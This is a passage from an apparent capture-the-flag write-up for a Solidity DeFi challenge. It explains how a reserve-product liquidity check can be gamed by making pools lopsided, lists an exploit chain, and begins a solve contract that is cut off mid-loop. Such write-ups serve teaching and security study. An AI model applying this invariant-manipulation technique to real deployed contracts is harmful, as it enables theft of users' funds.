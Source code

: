 This also plays in into the last function that calls ```updatePosition``` that we have yet to talk about, ```swapTokens```.
Observe how swapTokens allows us to arbitrarily update the position of any pair of tokens, so long as ```liquidityAfter >= liquidityBefore```.
Looking at the ```getLiquidity``` function, we can see it is calculated as follows.
~~~solidity
function getLiquidity(address left, address right) public view returns (uint256) {
    (,, Pool storage pool) = getPool(left, right);
    return pool.leftReserves * pool.rightReserves;
}
~~~
Notice that if the pool is heavily lopsided, we can reduce the higher side by a high amount, and only need to increase the low side by a small amount to get the same return value. Thus, with the addLiquidty exploit from earlier, we can manipulate the pools to all be incredibly lopsided, allowing us to swap high amounts of a token from one side of the pool while paying very little of the other token. Ideally, we should manipulate it such that all the swaps "cancel" each other out, leaving us with a net out equal to the total amount of each token. 

We thus get the following exploit chain.
- Withdraw all the tokens.
- Initiate transfer
- addLiquidty to return all the tokens, in a way that results in a lopsided pool
- Finalize transfer to reset the settled tokens.
- Repeat a few times to really mess with the pool.
- Withdraw all one final time.
- Swap in a manner that resets all the positions back to 0.

{{< collapse "Solve Script" >}}
~~~solidity
contract SolveAttempt {
    Gentleman gm;
    Token token1;
    address token1aa;
    Token token2;
    address token2aa;
    Token token3;
    address token3aa;
    uint256 balance1 = 300000;
    uint256 balance2 = 300000;
    uint256 balance3 = 600000;

    constructor(address gma, address token1a, address token2a, address token3a) payable{
        gm = Gentleman(gma);
        token1 = Token(token1a);
        token1aa = token1a;
        token2 = Token(token2a);
        token2aa = token2a;
        token3 = Token(token3a);
        token3aa = token3a;
    }

    function solve() public {
        gm.swap();
    }
    function doSwap() external{
        for (uint i = 0; i < 10; i += 1){
            token1.approve(address(gm), balance1 * 3);
            token2.approve(address(gm), balance2 * 3);
            token3.approve(address(gm), balance3 * 3);
            gm.withdraw(token1aa, balance1 / 3 * 2);
            gm.withdraw(token2aa, balance2 / 3 * 2);
            gm.withdraw(token3aa, balance3 / 3 * 2);
            gm.initiateTransfer(token1aa);
            gm.initiateTransfer(token2aa);
            gm.initiateTransfer(token3aa);
~~~
